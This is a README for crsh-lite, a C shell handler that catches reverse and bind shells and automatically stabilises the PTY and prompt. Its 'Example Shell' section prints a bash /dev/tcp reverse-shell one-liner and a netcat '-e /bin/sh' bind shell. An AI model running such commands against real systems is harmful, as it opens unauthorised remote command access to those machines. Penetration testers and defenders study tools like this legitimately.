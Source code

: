 # crsh-lite

crsh-lite is a light shell handler written in C, meant to make the process of remote administration easier. 

It uses netcat-like functionality to provide asynchronous I/O operations on the remote host. It also automatically spawns a PTY, stabilizes your prompt and resizes the remote terminal, as your local one changes.

crsh-lite is stageless, and only requires a normal reverse or bind shell to be executed. It's essentially a netcat program, but you don't have to worry about spawning a PTY, pressing CTRL+Z, setting your terminal to raw mode, etc.

## Example Compilation

```bash
$ make
```

## Syntax

```bash
# Server mode (listen)
$ ./crsh-lite <LPORT>

# Client Mode (connect)
$ ./crsh-lite <RPORT> <RHOST>
```

## Example Usage

```bash
$ ./crsh-lite 9001
$ ./crsh-lite 1337 localhost
```

## Example Shell

```bash
bash -i >&/dev/tcp/localhost/9001 0>&1
nc -lvp 1337 -e /bin/sh
```
